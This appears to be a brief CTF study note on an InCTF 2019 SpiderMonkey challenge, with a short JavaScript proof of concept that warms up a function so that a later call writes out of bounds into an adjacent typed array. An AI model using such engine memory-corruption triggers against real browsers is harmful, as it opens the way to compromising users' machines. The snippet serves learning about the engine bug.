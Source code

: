 # Practice  with Poc
It is a javascript challenge come from InCTF 2019
help me understand Spidermonkey structure

With Poc, it is an oob challenge.
```javascript=
blah = new Array()
blah.push(new Array(1.1,1.1))
blah.push(new Uint32Array(0x10))

function trigger(a1,a2){
  blah[0][a1]=1.337;
  for (let i=0; i<100000; i++){}
}

for(var i=0;i<100;i++) trigger(0)
trigger(2)
blah[1]
```

